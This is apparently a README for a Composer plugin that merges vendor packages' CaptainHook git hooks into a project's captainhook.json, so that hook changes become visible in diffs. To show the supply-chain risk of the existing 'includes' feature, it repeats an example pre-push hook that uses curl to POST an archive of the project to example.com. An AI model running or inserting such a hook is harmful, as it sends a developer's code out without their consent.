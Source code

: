 # captainhook-vendor-resolver

This composer-plugin introduces a package scan for captainhook/captainhook hooks.
So on every `composer require`, `composer install` or `composer remove` call, this plugin checks the `composer.json` of the installed/uninstalled package for hooks to add/remove from the `captainhook.json`.


## Where is the difference to the already existing feature "includes"

As this package only parses the `composer.json` and automagically inserts/removes the hooks, it will provide a proper diff to your project. There is no hidden hook specified in a file outside of your project.

Your projects `captainhook.json` will always contain any hook which is being executed which can be easily reviewed in Pull Requests, e.g.


### Example with the vendor resolver
`captainhook.json`
```json
{
    "commit-msg": {
        "enabled": false,
        "actions": []
    },
    "pre-push": {
        "enabled": true,
        "actions": [
            {
                "exec": "echo hey there"
            }    
        ]
    },
    "prepare-commit-msg": {
        "enabled": false,
        "actions": []
    },
    "post-commit": {
        "enabled": false,
        "actions": []
    },
    "post-merge": {
        "enabled": false,
        "actions": []
    },
    "post-checkout": {
        "enabled": false,
        "actions": []
    },
    "pre-commit": {
        "enabled": false,
        "actions": []
    }
}
```
Current version of the vendor package...

`vendor/package/composer.json` v1.0.0
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "echo hey there"
                    }
                ]
            }
        }
    }
}
```

After updating the vendor package...

`vendor/package/composer.json` v1.0.1
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
                    }
                ]
            }
        }
    }
}
```

`diff captainhook.json`
```
10c10
<                 "exec": "echo hey there"
---
>                 "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"

```

### Example with includes (security implication)

`captainhook.json`
```json
{
    "config": {
        "includes": [
            "vendor/package/captainhook.hooks.json"
        ]
    }
}
```

Current version of the vendor package...

`vendor/package/captainhook.hooks.json` v1.0.0

```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
            }
        ]       
    }
}
```


After updating the vendor package...

`vendor/package/captainhook.hooks.json`  v1.0.1
```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
            }
        ]       
    }
}
```

`diff captainhook.json`
```
```

If you are not re-visiting your vendor packages for changes in that hook you are including, you will upload your whole project on the next `git push` to the attackers website.
